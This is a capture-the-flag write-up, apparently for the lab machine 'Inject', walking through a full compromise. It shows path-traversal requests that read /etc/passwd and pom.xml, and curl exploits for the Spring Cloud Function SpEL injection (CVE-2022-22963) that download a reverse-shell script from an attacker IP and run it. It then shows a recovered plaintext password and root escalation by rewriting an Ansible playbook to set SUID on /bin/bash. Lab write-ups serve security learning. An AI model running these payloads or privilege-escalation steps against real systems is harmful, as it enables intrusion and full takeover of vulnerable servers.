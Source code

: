 ## INject

```
Nmap scan report for 10.10.11.204
Host is up (0.39s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

found upload in home page 


once uploaded we can see where the image is written on host



GET /show_image?img=image.png  


## Vulnerability

**LFI**


```html
GET /show_image?img=../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.204:8080/upload
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Cache-Control: max-age=0
```


found a interesting file


```html
GET /show_image?img=../../../../../../var/www/WebApp/pom.xml HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.204:8080/upload
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Cache-Control: max-age=0

```

which reveals the spring version

```xml
<dependency>
	<groupId>org.springframework.cloud</groupId>
	<artifactId>spring-cloud-function-web</artifactId>
	<version>3.2.2</version>
</dependency>
```

https://github.com/Kirill89/CVE-2022-22963-PoC




header post request 




```bash
curl -X POST -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("curl IP/rev.sh -o /tmp/rev.sh")' -d sticazzi http://10.10.11.204:8080/functionRouter


curl -X POST -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash /tmp/rev.sh")' -d sticazzi http://10.10.11.204:8080/functionRouter

```


## Pwned


once pwned we are frank ! 


in home we find a .m2 directory 

settings.xml gives us a phil passwd


```
	<username>phil</username>
	<password>DocPhillovestoInject123</password>

```



`su phil` give us the access on phil ! 


## Privilega Escalation



on /opt/automation/tasks/playbook_1.yml 


we can change it like this


#### Original

```yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started

```

#### Modified

```yml
- hosts: localhost
  tasks:
  - name: shell
    command: sudo chmod u+s /bin/bash
```


once uploaded 


`ansible-playbook my.yml`


and with /bin/bash -p 


we are **root**




















